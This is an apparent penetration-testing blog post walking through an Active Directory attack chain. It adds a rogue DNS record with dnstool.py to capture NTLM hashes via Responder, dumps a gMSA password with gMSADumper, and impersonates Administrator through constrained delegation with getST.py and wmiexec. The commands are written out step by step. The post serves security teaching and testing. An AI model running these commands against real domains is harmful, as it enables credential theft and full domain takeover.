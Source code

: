 [back](/blog)

### Evil DNS zone and Constrained Delegation in Active Directory

Quite often during the attack on the Active Directory it turns out that the DNS server is used with default settings.

Thus, it is possible to add DNS entry with the rights of a regular domain user. The fact is that by default for the Authenticated Users group there are no restrictions on creating DNS records, such through access to LDAP.

![Image](/img/evil_dns/1.png)

```
python3 dnstool.py -u 'yourdomain.ru\Tiffany.Molina' -p password --action add -r web332211.domain.ru -d attacker-ip ldap-ip
```

![Image](/img/evil_dns/2.png)

![Image](/img/evil_dns/3.png)

After successfully adding a DNS entry associated with an IP attacker, you can get domain user netNTLM hash, that will access to the added DNS name for example by smb or http with network netNTLM authentication. Moreover, this DNS record looks reliable, from the point of view of confidence in the resource. This can be used for targeted attacks.

So, after running Responder we get netNTLMV2 hash:

![Image](/img/evil_dns/4.png)

By collecting Active Directory dump and downloading it to the Bloodhound database, it became clear that the user Ted.Graves consists in the ITSupport group.

![Image](/img/evil_dns/5.png)

TED.graves can control the service account through the Group Managed Service Accounts functionality (GMSA), while having the ability to get password or NTLM belonging to SVC_INT user.

![Image](/img/evil_dns/6.png)

```
python3 gMSADumper.py -u username -p password -d domain.ru
```

![Image](/img/evil_dns/7.png)

SVC_INT user has the ability to request a service ticket and impersonate it for any user. Using in this case, the S4U2SELF/S4U2Proxy mechanism can be obtained by the privileges of the domain administrator.

![Image](/img/evil_dns/8.png)

```
getST.py -spn HOST/SQL01.DOMAIN 'DOMAIN/user:password'  -hashes :NTLM-hash -impersonate Administrator
```

![Image](/img/evil_dns/9.png)

After receiving the service ticket and export it to the environment, you can use the wmiexec.py to get interactive access to domain controller

Useful links:

+ [DNSTool](https://github.com/dirkjanm/krbrelayx)
+ [gMSADumper](https://github.com/micahvandeusen/gMSADumper)
+ [Impacket](https://github.com/SecureAuthCorp/impacket)
+ [BloodHound](https://github.com/BloodHoundAD/BloodHound)

<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/blog)